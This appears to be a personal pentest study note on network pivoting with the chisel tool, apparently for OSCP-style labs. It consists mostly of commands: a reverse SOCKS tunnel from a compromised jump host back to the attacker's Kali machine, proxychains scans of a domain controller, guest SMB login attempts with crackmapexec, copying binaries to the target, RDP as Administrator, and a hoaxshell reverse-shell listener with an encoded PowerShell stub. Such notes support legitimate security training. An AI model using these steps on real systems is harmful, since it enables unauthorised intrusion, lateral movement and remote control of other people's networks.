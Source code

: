 ### 24082023Thu

[A Powerful Pivoting Technique That the OSCP Doesn&#39;t Teach You - YouTube](https://youtu.be/dIqoULXmhXg)

https://www.youtube.com/@elevatecyber5031

https://www.kali.org/tools/chisel/

https://github.com/jpillora/chisel

```
ln -s /usr/local/bin/chisel chisel
```

```
chisel -h
```

```
nmap -Pn -n -p 88 192.168.237.103
```

 (Domain Controller IP)
 ![[Pasted image 20230824225909.png]]
 
```
88/tcp filtered kerberos-sec
```

```
chisel server -p 8000 --reverse
```

```
chisel client 192.168.237.102:8000 R:socks
```

```
sudo vim /etc/proxychains4.conf
```

![[Pasted image 20230824231727.png]]
![[Pasted image 20230824231843.png]]
#socks4

```
socks 127.0.0.1 1080
```

```
proxychains nmap -sT -p 88 -Pn -n 192.168.237.103
```

```
proxychains crackmapexec smb 192.168.237.103 -u 'guest' -p ''
```

```
https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64
```

```
scp nmap username@ip:/tmp
```

```
scp chisel username@ip:/tmp
```

**In the attacker (kali) machine**

```
chisel server --socks5 --reverse
```

```
chisel server --socks5 --reverse
2023/09/15 22:05:53 server: Reverse tunnelling enabled
2023/09/15 22:05:53 server: Fingerprint wq+g4n5Ac8sFp9t9GwOLu7U6arED88bF2jfhH4IxV70=
2023/09/15 22:05:53 server: Listening on http://0.0.0.0:8080
```

**In the compromised pivot (jump host) machine**

```
./chisel client --fingerprint wq+g4n5Ac8sFp9t9GwOLu7U6arED88bF2jfhH4IxV70= [attacker's machine IP]:8080 R:8000:[other's machine IP]:80
```

```
./chisel client --fingerprint wq+g4n5Ac8sFp9t9GwOLu7U6arED88bF2jfhH4IxV70= kaliIP:8080 0.0.0.0:9999:kaliIP:9999
```

**In the kali's web browser**

http://localhost:8000

```
proxychains curl http://other's machine IP
```

```
proxychains xfreerdp /v:ip /u:Administrator
```

```
python hoaxshell.py -s other's machine IP -p 9999
```

```
powershell -e
```